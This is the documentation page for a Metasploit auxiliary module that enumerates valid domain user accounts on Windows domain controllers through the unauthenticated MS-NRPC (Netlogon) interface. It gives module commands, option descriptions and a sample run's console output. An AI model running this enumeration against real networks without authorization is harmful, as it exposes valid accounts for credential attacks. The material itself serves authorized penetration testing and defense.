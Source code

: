 ## Vulnerable Application

A new method for gathering domain users. The method leverages auth-level = 1 (No authentication) against the
MS-NRPC (Netlogon) interface on domain controllers. All that's required is the domain controller's IP address,
and the entire process can be completed without providing any credentials.

## Verification Steps

1. Do: `use auxiliary/gather/nrpc_enumusers`
2. Do: `set RHOSTS <targer IP addresses>`
3. Do: `set USER_FILE <path to your users list>`
4. Do: `run`


## Target

To use nrpc_enumusers, make sure you are able to connect to the Domain Controller.
It has been tested with Windows servers 2012, 2016, 2019 and 2022

## Options

### USER_FILE

**Description:** Path to the file containing the list of usernames to enumerate. Each username should be on a separate line.

**Usage:** Provide the path to the file that contains the list of user accounts you want to test.

**Example:** `set USER_FILE /path/to/usernames.txt`

2- `RHOSTS` (required)

**Description:** The target IP address or range of IP addresses of the Domain Controllers.

**Usage:** Specify the IP address or addresses of the Domain Controllers you are targeting.

**Example:** `set RHOSTS 192.168.1.100`

3- `RPORT` (optional)

**Description:** The port for the MS-NRPC interface. If not specified, the module will attempt to determine the endpoint.

**Usage:** If you know the port used by the MS-NRPC interface, you can specify it. Otherwise, the module will find it automatically.

**Example:** `set RPORT 49664`

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user accounts.

Create a new `./users.txt` file, then run the module:

```
msf auxiliary(gather/nrpc_enumusers) > set RHOSTS 192.168.177.177
RHOSTS => 192.168.177.177
msf auxiliary(gather/nrpc_enumusers) > set USER_FILE users.txt 
USER_FILE => users.txt
msf auxiliary(gather/nrpc_enumusers) > run

[*] 192.168.177.177: - Connecting to the endpoint mapper service...
[*] 192.168.177.177: - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.177.177[49664]...
[-] 192.168.177.177: - Tiffany.Molina does not exist
[-] 192.168.177.177: - SMITH does not exist
[-] 192.168.177.177: - JOHNSON does not exist
[-] 192.168.177.177: - WILLIAMS does not exist
[-] 192.168.177.177: - Administratorsvc_ldap does not exist
[-] 192.168.177.177: - svc_ldap does not exist
[-] 192.168.177.177: - ksimpson does not exist
[+] 192.168.177.177: - Administrator exists
[-] 192.168.177.177: - James does not exist
[-] 192.168.177.177: - nikk37 does not exist
[-] 192.168.177.177: - svc-printer does not exist
[-] 192.168.177.177: - SABatchJobs does not exist
[-] 192.168.177.177: - e.black does not exist
[-] 192.168.177.177: - Kaorz does not exist
[*] 192.168.177.177: - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(gather/nrpc_enumusers) >
```
